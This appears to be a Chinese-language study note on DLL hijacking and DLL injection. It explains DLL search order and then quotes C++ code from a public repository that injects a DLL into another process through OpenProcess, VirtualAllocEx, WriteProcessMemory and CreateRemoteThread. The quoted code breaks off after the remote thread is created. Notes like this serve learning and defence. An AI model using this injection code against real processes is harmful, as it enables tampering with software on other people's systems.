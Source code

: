 + 加载dll顺序：首先看当前路径是否有dll，如果没有则去系统目录下找dll，如果修改系统目录下要被调用的dll，则会产生不堪设想的后果，这叫dll劫持

+ 从[dll inject](https://github.com/search?q=dll+inject)找[示例代码](https://github.com/fdiskyou/injectAllTheThings/blob/master/injectAllTheThings/t_CreateRemoteThread.cpp)

  ```c++
  #include <stdio.h>
  #include <Windows.h>
  #include <tlhelp32.h>
  #include "fheaders.h"
  
  DWORD demoCreateRemoteThreadW(PCWSTR pszLibFile, DWORD dwProcessId)
  {
  	// Calculate the number of bytes needed for the DLL's pathname
  	DWORD dwSize = (lstrlenW(pszLibFile) + 1) * sizeof(wchar_t);
  
  	// Get process handle passing in the process ID
  	HANDLE hProcess = OpenProcess(
  		PROCESS_QUERY_INFORMATION |
  		PROCESS_CREATE_THREAD |
  		PROCESS_VM_OPERATION |
  		PROCESS_VM_WRITE,
  		FALSE, dwProcessId);
  	if (hProcess == NULL)
  	{
  		wprintf(TEXT("[-] Error: Could not open process for PID (%d).\n"), dwProcessId);
  		return(1);
  	}
  
  	// Allocate space in the remote process for the pathname
  	LPVOID pszLibFileRemote = (PWSTR)VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
  	if (pszLibFileRemote == NULL)
  	{
  		wprintf(TEXT("[-] Error: Could not allocate memory inside PID (%d).\n"), dwProcessId);
  		return(1);
  	}
  
  	// Copy the DLL's pathname to the remote process address space
  	DWORD n = WriteProcessMemory(hProcess, pszLibFileRemote, (PVOID)pszLibFile, dwSize, NULL);
  	if (n == 0)
  	{
  		wprintf(TEXT("[-] Error: Could not write any bytes into the PID [%d] address space.\n"), dwProcessId);
  		return(1);
  	}
  
  	// Get the real address of LoadLibraryW in Kernel32.dll
  	PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
  	if (pfnThreadRtn == NULL)
  	{
  		wprintf(TEXT("[-] Error: Could not find LoadLibraryA function inside kernel32.dll library.\n"));
  		return(1);
  	}
  
  	// Create a remote thread that calls LoadLibraryW(DLLPathname)
  	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, pszLibFileRemote, 0, NULL);
  	if (hThread == NULL)
  	{
  		wprintf(TEXT("[-] Error: Could not create the Remote Thread.\n"));
  		return(1);
  	}
  ```